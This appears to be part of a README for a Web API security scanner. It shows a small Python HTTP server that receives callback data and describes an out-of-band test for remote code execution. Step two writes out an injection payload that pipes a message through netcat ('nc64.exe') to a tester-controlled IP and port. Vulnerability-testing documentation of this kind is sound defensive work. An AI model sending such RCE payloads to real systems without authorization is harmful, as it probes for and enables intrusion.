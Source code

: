 the second script opens a web service on the specified file port (filePORT) at the location of the file(fileNAME) using Python's httpserver. 

```
from http.server import HTTPServer, SimpleHTTPRequestHandler

class MyRequestHandler(SimpleHTTPRequestHandler):
    
    # 重写do_GET方法，在请求某个资源时进行权限控制
    def do_GET(self):
        if self.path != '/received_data.txt':
            self.send_error(404, "File not found")
        else:
            return super().do_GET()

# 指定监听地址和端口号
host = ''
port = 8000 #filePORT

# 创建HTTP服务器，并指定请求处理函数
httpd = HTTPServer((host, port), MyRequestHandler)

# 启动HTTP服务器
print(f"Server started on http://{host}:{port}")
httpd.serve_forever()
```

If the payload attack is successful, the target system will send information with a number to the pre-specified server and port. At the same time, the Web API Security Detection System sends a request to "http://serverIP:filePORT/fileNAME" to obtain the file content and searches the file content for the number of a certain message. If the number is found, the test is considered successful; otherwise, it is considered a failure

①First, run the above two pieces of code on the server, and input serverIP, serverPORT, fileNAME, and filePORT in the server judgment method as shown below.

![image-20230430234317235](README.assets/image-20230430234317235.png)

②Test the RCE vulnerability using the payload "echo ${replace} | nc64.exe ${serverIp} ${serverPort}". The system will replace ${replace} with the ID of each packet to distinguish different messages, and replace ${serverIp} and ${serverPort} with 192.168.28.128 and 9000 respectively. Choose the Server judgment method.
